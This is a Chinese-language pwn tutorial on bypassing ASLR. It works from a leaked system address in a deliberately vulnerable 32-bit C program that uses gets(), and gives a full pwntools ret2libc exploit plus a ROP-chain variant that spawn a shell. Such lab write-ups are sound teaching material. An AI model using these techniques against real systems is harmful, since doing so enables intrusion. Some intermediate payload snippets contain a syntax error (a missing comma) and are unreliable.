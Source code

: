```yaml
---
title: 利用已泄漏信息绕过 ASLR
subtitle:
date: 2023-08-23T11:23:01+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


利用已泄漏信息绕过 ASLR

<!--more-->

## 0x01 源码

{{< link href="/pwn_assets/aslr.zip" content="aslr.zip" title="Download aslr.zip" download="aslr.zip" card=true >}}

```c {title="source.c"}
#include <stdio.h>
#include <stdlib.h>

void vuln() {
  char buffer[20];

  printf("System is at: %lp\n", system);

  gets(buffer);
}

int main() {
  vuln();

  return 0;
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

就像我们对 PIE 所做的那样，只不过这次我们输出 `system` 的地址。

## 0x02 分析

```
$ ./vuln-32
System is at: 0xf7c4f610
```

{{<admonition type="info">}}

你的系统地址可能以不同的字符结尾。这只是说明你用的是不同的 libc 版本。

{{</admonition>}}

## 0x03 利用

其中大部分与我们对 PIE 所做的一样。

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()
```

解析 `system` 地址并从中计算 libc 基址（就像我们对 PIE 所做的那样）：

```python
p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')
```

现在我们终于可以使用 libc ELF 对象来实现 ret2libc 了：

```python
payload = flat(
    'A' * 32,
    libc.sym['system']
    0x0,
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

### 1x01 最终 Exploit

```python {title="exp.py"}
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    0x0,
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

## 0x04 64-bit

自己尝试 :)

{{< link href="/pwn_assets/aslr-64.zip" content="aslr-64.zip" title="Download aslr-64.zip" download="aslr-64.zip" card=true >}}

## 0x05 使用 pwntools 优化

你可以将以下 payload 写得更加 pwntoolsy：

```python
payload = flat(
    'A' * 32,
    libc.sym['system']
    0x0,
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)
```

你可以这样做：

```python
shell = next(libc.search(b'/bin/sh'))

rop = ROP(libc)
rop.raw('A' * 32)
rop.system(shell)

p.sendline(rop.chain())
```

这样做的好处是更具可读性，而且也更容易在 64-bit 漏洞利用中重用。因为所有参数都
会自动为你解析。

